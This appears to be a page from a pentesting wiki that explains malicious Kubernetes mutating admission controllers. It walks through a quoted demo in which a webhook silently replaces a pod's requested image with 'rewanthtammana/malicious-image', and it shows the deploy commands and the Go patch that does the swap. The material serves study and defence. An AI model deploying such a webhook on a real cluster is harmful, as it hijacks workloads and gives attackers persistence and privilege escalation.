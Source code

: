 ### Malicious Admission Controller

An admission controller is a piece of code that **intercepts requests to the Kubernetes API server** before the persistence of the object, but **after the request is authenticated** **and authorized**.

If an attacker somehow manages to **inject a Mutationg Adminssion Controller**, he will be able to **modify already authenticated requests**. Being able to potentially privesc, and more usually persist in the cluster.

Example from [https://blog.rewanthtammana.com/creating-malicious-admission-controllers](https://blog.rewanthtammana.com/creating-malicious-admission-controllers):

```bash
git clone https://github.com/rewanthtammana/malicious-admission-controller-webhook-demo
cd malicious-admission-controller-webhook-demo
./deploy.sh
kubectl get po -n webhook-demo -w
```

Wait until the webhook server is ready. Check the status:

```bash
kubectl get mutatingwebhookconfigurations
kubectl get deploy,svc -n webhook-demo
```

![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format\&format=webp)

Once we have our malicious mutating webhook running, let's deploy a new pod.

```bash
kubectl run nginx --image nginx
kubectl get po -w
```

Wait again, until you see the change in pod status. Now, you can see `ErrImagePull` error. Check the image name with either of the queries.

```bash
kubectl get po nginx -o=jsonpath='{.spec.containers[].image}{"\n"}'
kubectl describe po nginx | grep "Image: "
```

![malicious-admission-controller.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433512073/leFXtgSzm.png?auto=compress,format\&format=webp)

As you can see in the above image, we tried running image `nginx` but the final executed image is `rewanthtammana/malicious-image`. What just happened!!?

#### Technicalities <a href="#heading-technicalities" id="heading-technicalities"></a>

We will unfold what just happened. The `./deploy.sh` script that you executed, created a mutating webhook admission controller. The below lines in the mutating webhook admission controller are responsible for the above results.

```
patches = append(patches, patchOperation{
    Op:    "replace",
    Path:  "/spec/containers/0/image",
    Value: "rewanthtammana/malicious-image",
})
```
